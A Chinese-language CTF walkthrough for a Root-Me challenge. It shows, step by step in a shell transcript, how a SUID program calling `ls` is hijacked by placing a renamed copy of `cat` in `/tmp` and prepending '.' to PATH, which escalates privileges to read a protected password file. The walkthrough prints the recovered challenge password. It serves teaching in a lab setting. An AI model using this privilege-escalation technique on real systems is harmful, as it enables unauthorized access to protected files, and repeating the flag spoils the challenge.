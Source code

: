 # CTF-Solving-Reports
　【App-Script : Bash - System 1】 [[官网入口](https://www.root-me.org/en/Challenges/App-Script/ELF32-System-1)] [[上级分类](https://github.com/lyy289065406/CTF-Solving-Reports/tree/master/rootme/App-Script)]

------

## 考察点

 - SUID权限的可执行文件利用
 - 环境变量 PATH 中含有当前路径 "." 造成的路径胁持
 - 文件权限的传递方式

## 解题思路

> 先直接用脚本讲解正确的解题步骤，后面再解释这个思路是怎么来的）

```shell
# (1) 登入靶机后，首先检查当前的目录环境（当前用户、工作目录、拥有文件、权限等）
app-script-ch11@challenge02:~$ pwd
/challenge/app-script/ch11

# (2) 发现一个具有SUID权限的可执行脚本 ch11、一个只读的C源码文件 ch11.c、一个无法读写隐藏文件 .passwd
#     由此可以猜测最终目标就是要通过某种途径查看 .passwd 的内容
app-script-ch11@challenge02:~$ ll
total 24
dr-xr-x---  2 app-script-ch11-cracked app-script-ch11         4096 Aug 11  2015 ./
drwxr-xr-x 17 root                    root                    4096 Mar 17  2018 ../
-r--r-----  1 app-script-ch11-cracked app-script-ch11-cracked   14 Feb  8  2012 .passwd
-r-sr-x---  1 app-script-ch11-cracked app-script-ch11         7160 Aug 11  2015 ch11*
-r--r-----  1 app-script-ch11         app-script-ch11          153 Aug 11  2015 ch11.c

# (3) 查看C源码，其功能就是调用 ls 系统命令，还很贴心地注释了 gcc 编译命令
app-script-ch11@challenge02:~$ more ch11.c
#include <stdlib.h>
#include <stdio.h>

/* gcc -m32 -o ch11 ch11.c */

int main(void) 
{
        system("ls /challenge/app-script/ch11/.passwd");
        return 0;
}

# (4) 尝试执行 gcc 编译，发现没有权限在当前目录编译
app-script-ch11@challenge02:~$ gcc -m32 -o ch11 ch11.c
Cannot create temporary file in ./: Permission denied
Aborted

# (5) 直接执行 ch11 脚本，通过其输出可以知道这就是从 ch11.c 编译而来的
#     而且这个脚本还具备 SUID 权限，其 owner 为 app-script-ch11-cracked
#     在前面已经知道，.passwd 文件也是同一个 owner，且只有 owner 可读
#     因此到这里就可以明确，最终的目标就是利用 ch11 脚本的 SUID 位特性进行提取查看 .passwd 文件
app-script-ch11@challenge02:~$ ./ch11
/challenge/app-script/ch11/.passwd

# -----------------------------------------------------------
# (?) 这里可能有些同学认为自己“找到了解题方法”：
#         修改 ch11.c 调用的系统命令，如改成 "cat /challenge/app-script/ch11/.passwd"，然后重新编译执行就能达成目的
#         而 ch11.c 是只读的，问题就变成怎么编辑 ch11.c
#
#     这思路其实是错的，这也是出题人希望误导的方向。至于为什么后面再解释，暂时不展开。
#
#     这题的解法其实不是修改 ch11.c 的命令，二是修改其所调用的命令 ls 的语义为 cat 来达到目的
#     简单来说，就是让 ch11 以为自己执行的是 ls ，实际上执行的是 cat（胁持）
# -----------------------------------------------------------

# (6) 需要知道，linux 执行 bash 命令的时候，是从环境变量 PATH 去搜索同名脚本的
#     这里查看一下当前环境变量 PATH 的内容
app-script-ch11@challenge02:/tmp/exp$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/opt/tools/checksec/

# (7) 列出的目录大部分都没有权限查看，但最终在 /bin 目录找到了 ls 和 cat 两个命令的脚本文件
#     当然用直接用 find / -name "cat" 命令找也是可以的，会更快
#     可以发现 ls 和 cat 脚本对所有用户都是可读的，这就为接下来的伪造命令创造了条件
#     我们的目的是：把 cat 伪装成 ls
#     但因为不具备 /bin 目录的写权限，因此不能直接在这里操作
#     但又因为有读权限，所以可以复制去其他我们有写权限的目录操作
app-script-ch11@challenge02:~$ cd /bin
app-script-ch11@challenge02:/bin$ ll | grep -w 'ls'
-rwxr-xr-x  1 root root  108708 Mar 10  2016 ls*
app-script-ch11@challenge02:/bin$ ll | grep -w 'cat'
-rwxr-xr-x  1 root root   46884 Mar 10  2016 cat*

# (8) 很自然就可以想到 /tmp 临时目录，查一下，确实具有写权限
app-script-ch11@challenge02:/bin$ cd /
app-script-ch11@challenge02:/$ ll | grep -w 'tmp'
drwxrwx-wt  20 root root 2166784 Dec 30 13:40 tmp/

# (9) 但是因为不具备对 /tmp 目录的读权限，为了方便操作，在 /tmp 目录下再建一个子目录 exp，权限设为 777
app-script-ch11@challenge02:/$ cd /tmp
app-script-ch11@challenge02:/tmp$ mkdir exp
app-script-ch11@challenge02:/tmp$ chmod 777 exp
app-script-ch11@challenge02:/tmp$ cd exp

# (10) 把 /bin/cat 脚本复制到 /tmp/exp 目录下，并重命名为 ls ， 至此伪装就完成了
app-script-ch11@challenge02:/tmp/exp$ cp /bin/cat .
app-script-ch11@challenge02:/tmp/exp$ mv cat ls
app-script-ch11@challenge02:/tmp/exp$ ll
total 2172
drwxrwxrwx  2 app-script-ch11 app-script-ch11    4096 Dec 30 13:41 ./
drwxrwx-wt 21 root            root            2166784 Dec 30 13:41 ../
-rwxr-x---  1 app-script-ch11 app-script-ch11   46884 Dec 30 13:41 ls*

# (11) 前面说过，linux 在执行 bash 命令的时候，是从环境变量 PATH 去搜索同名脚本的
#      而 ~/ch11 脚本所调用的系统命令 ls 在 /bin 目录下
#      为了达到路径胁持的目的，可以把当前目录 "." 添加到环境变量 PATH 的最前面
#      使得 linux 在搜索命令脚本的时候，先从当前目录下找
#      而在当前目录 /tmp/exp 下，我们刚刚创造了一个伪装成 ls 的 cat 脚本
app-script-ch11@challenge02:/tmp/exp$ export PATH=.:$PATH
app-script-ch11@challenge02:/tmp/exp$ echo $PATH
.:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/opt/tools/checksec/

# (12) 把当前目录 "." 添加到环境变量 PATH 后，在当前目录执行 ll 命令已经不起作用了
#      原因是 ll 是命令 ls -la 的缩写别名，因此会连带不生效
app-script-ch11@challenge02:/tmp/exp$ ll
ls: unrecognized option '--color=auto'
Try 'ls --help' for more information.

# (13) 最后，只需要 cd 到伪装成 ls 的 cat 脚本所在的目录下（即使得当前目录变成  /tmp/exp ）
#      再直接调用工作目录下的 ch11 脚本，即可通过 路径胁持+伪装命令 达到提权目的
#      最终我们得到了密码，完成挑战
app-script-ch11@challenge02:/tmp/exp$ ~/ch11
!oPe96a/.s8d5
```


## 解题误区

看了评论区，有大部分同学采用了类似这样的一个错误的做法：

1. 把 ch11.c 复制到 /tmp 目录，然后通过 chmod 赋予自己对 ch11.c 的写权限
2. 用 vim 把 system 命令的 ls 修改成 cat，在 /tmp 目录重新 gcc 编译得到新的 ch11 脚本
3. 通过 chmod u+s  赋予 ch11 脚本 SUID 权限，运行 ch11 脚本，最后报错 `Permission denied` 就做不下去了

为什么这样做无法提权？其实看一下 /tmp 目录 gcc 编译出来的  ch11 脚本的 owner 就知道了：

- 新编译的 ch11 脚本的 owner 是当前用户 app-script-ch11
- 而原本在 app-script-ch11 工作目录的 ch11 脚本的 owner 是 app-script-ch11-cracked

换言之新编译的 ch11 脚本的 SUID 位还是 app-script-ch11 自身，是没有办法利用 SUID 的特性在执行脚本的过程中提权为 app-script-ch11-cracked 的。


![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/App-Script/01%20%5B5P%5D%20Bash%20%E2%80%93%20System%201/imgs/01.png)

------

## 版权声明

　[![Copyright (C) 2016-2019 By EXP](https://img.shields.io/badge/Copyright%20(C)-2006~2018%20By%20EXP-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
